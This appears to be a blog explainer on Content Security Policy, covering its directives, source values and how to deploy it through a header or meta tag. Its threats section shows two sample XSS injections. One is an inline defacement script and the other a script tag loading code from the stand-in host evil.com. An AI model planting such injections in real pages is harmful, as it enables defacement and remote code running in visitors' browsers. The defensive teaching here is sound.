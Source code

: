 ```yaml
---
title: 🛡️ What is a Content Security Policy (CSP)?
description: A Content Security Policy (CSP) is an added layer of security that helps businesses and security teams mitigate certain types of client-side attacks.
date: 2024-05-19
tags: ['web']
published: true
---
```


## Introduction

Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is a browser security mechanism that aims to mitigate Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

![Content Security Policy](../img/csp/content-security-policy.jpg)

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

## Threats

### Mitigating cross-site scripting

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>
  document.body.innerHTML = 'defaced'
</script>
```

will not work.

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

### Mitigating packet sniffing attacks

In addition to restricting the domains from which content can be loaded, the server can specify which protocols are allowed to be used; for example (and ideally, from a security standpoint), a server can specify that all content must be loaded using HTTPS. A complete data transmission security strategy includes not only enforcing HTTPS for data transfer, but also marking all cookies with the `secure` attribute and providing automatic redirects from HTTP pages to their HTTPS counterparts. Sites may also use the `Strict-Transport-Security` HTTP header to ensure that browsers connect to them only over an encrypted channel.

## CSP Directive Reference

This documentation is provided based on the [Content Security Policy Level 2](https://www.w3.org/TR/CSP2/) W3C Recommendation, and the [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/) W3C Working Draft

### Fetch Directives

Fetch directives tell the browser the locations to trust and load resources from. Most fetch directives have a certain [fallback list specified in w3](https://www.w3.org/TR/CSP3/#directive-fallback-list). This list allows for granular control of the source of scripts, images, files, etc.

- `default-src` is a fallback directive for the other fetch directives. Directives that are specified have no inheritance, yet directives that are not specified will fall back to the value of `default-src`. <Tag>CSP Level 1</Tag>
- `script-src` specifies the locations from which a script can be executed from. It is a fallback directive for other script-like directives. <Tag>CSP Level 1</Tag>
  - `script-src-elem` controls the location from which execution of script requests and blocks can occur.
  - `script-src-attr` controls the execution of event handlers.
- `style-src` controls from where styles get applied to a document. This includes `<link>` elements, `@import` rules, and requests originating from a Link HTTP response header field. <Tag>CSP Level 1</Tag>
  - `style-src-elem` controls styles except for inline attributes.
  - `style-src-attr` controls styles attributes.
- `img-src` specifies the URLs that images can be loaded from. <Tag>CSP Level 1</Tag>
- `connect-src` provides control over fetch requests, XHR, eventsource, beacon and websockets connections. <Tag>CSP Level 1</Tag>
- `font-src` specifies which URLs to load fonts from. <Tag>CSP Level 1</Tag>
- `object-src` specifies the URLs from which plugins can be loaded from. <Tag>CSP Level 1</Tag>
- `media-src` specifies the URLs from which video, audio and text track resources can be loaded from. <Tag>CSP Level 1</Tag>
- `child-src` allows the developer to control nested browsing contexts and worker execution contexts. <Tag>CSP Level 2</Tag>
- `prefetch-sr`c specifies the URLs from which resources can be prefetched from. <Tag>CSP Level 3</Tag>
- `manifest-src` specifies the URLs that application manifests may be loaded from. <Tag>CSP Level 3</Tag>

### Document Directives

Document directives instruct the browser about the properties of the document to which the policies will apply to.

- `sandbox`(https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox) restricts a page's actions such as submitting forms. <Tag>CSP Level 1</Tag>
  - Only applies when used with the request header `Content-Security-Policy`.
  - Not specifying a value for the directive activates all of the sandbox restrictions. `Content-Security-Policy: sandbox;`
- `base-uri` specifies the possible URLs that the `<base>` element can use. <Tag>CSP Level 2</Tag>
- `plugin-types` limits the types of resources that can be loaded into the document (e.g. application/pdf). <Tag>CSP Level 2</Tag> 3 rules apply to the affected elements, `<embed>` and `<object>`:
  - The element needs to explicitly declare its type.
  - The element's type needs to match the declared type.
  - The element's resource needs to match the declared type.
  ```HTTP title="EXAMPLE PLUGIN-TYPES POLICY"
  plugin-types application/pdf;
  ```

### Navigation Directives

Navigation directives instruct the browser about the locations that the document can navigate to.

- `form-action` restricts the URLs which the forms can submit to. <Tag>CSP Level 2</Tag>
- `frame-ancestors` restricts the URLs that can embed the requested resource inside of `<frame>`, `<iframe>`, `<object>`, `<embed>`, or `<applet>` elements. <Tag>CSP Level 2</Tag>
  - If this directive is specified in a `<meta>` tag, the directive is ignored.
  - This directive doesn't fallback to the `default-src` directive.
  - `X-Frame-Options` is rendered obsolete by this directive and is ignored by the user agents.
- `navigate-to` restricts the URLs that the document may navigate to by any means. For example when a link is clicked, a form is submitted, or window.location is invoked. If `form-action` is present then this directive is ignored for form submissions. Removed from the CSP 3 Spec.

### Reporting Directives

Reporting directives deliver violations of prevented behaviors to specified locations. These directives serve no purpose on their own and are dependent on other directives.

- `report-to` defines a reporting group name defined by a `Report-To` HTTP response header. <Tag>CSP Level 3</Tag> See the [Reporting API](https://w3c.github.io/reporting/) for more info.
- `report-uri` directive is deprecated in CSP Level 3 in favor of the `report-to` directive, which is a URI that the reports are sent to.

## Source List Reference

| Source Value         | Example                       | Description                                                                                                                                                                |
| -------------------- | ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`                  | `img-src *`                   | Wildcard, allows any URL except data: blob: filesystem: schemes.                                                                                                           |
| `'none'`             | `object-src 'none'`           | Prevents loading resources from any source.                                                                                                                                |
| `'self'`             | `script-src 'self'`           | Allows loading resources from the same origin (same scheme, host and port).                                                                                                |
| `data:`              | `img-src 'self' data:`        | Allows loading resources via the data scheme (eg Base64 encoded images).                                                                                                   |
| `https:`             | `img-src https:`              | Allows loading resources only over HTTPS on any domain.                                                                                                                    |
| `domain.example.com` | `img-src domain.example.com`  | Allows loading resources from the specified domain name.                                                                                                                   |
| `*.example.com`      | `img-src *.example.com`       | Allows loading resources from any subdomain under example.com.                                                                                                             |
| `'unsafe-inline'`    | `script-src 'unsafe-inline'`  | Allows use of inline source elements such as style attribute, onclick, or script tag bodies (depends on the context of the source it is applied to) and `javascript:` URIs |
| `'unsafe-eval'`      | `script-src 'unsafe-eval'`    | Allows unsafe dynamic code evaluation such as JavaScript `eval()`                                                                                                          |
| `'nonce-'`           | `script-src 'nonce-rAnd0m'`   | Allows an inline script or CSS to execute if the script (eg: `<script nonce="rAnd0m">`) tag contains a nonce attribute matching the nonce specified in the CSP header.     |
| `'sha256-'`          | `script-src 'sha256-xyz...'`  | Allows an inline script or CSS to execute if its hash matches the specified hash in the header.                                                                            |
| `'strict-dynamic'`   | `script-src 'strict-dynamic'` | Enables an allowed script to load additional scripts via non-"parser-inserted" script elements (for example `document.createElement('script');` is allowed).               |

## Implementing Content Security Policy

You can deploy a CSP as a HTTP response header or an HTML meta tag.

To configure your web server to return the HTTP Content-Security-Policy header, use:

```HTTP
Content-Security-Policy: [directive] [resource type]
```

To use the HTML `<meta>` element to configure a policy, it looks like this:

```html
<meta
  http-equiv="Content-Security-Policy"
  content="[directive] [resource type]"
/>
```
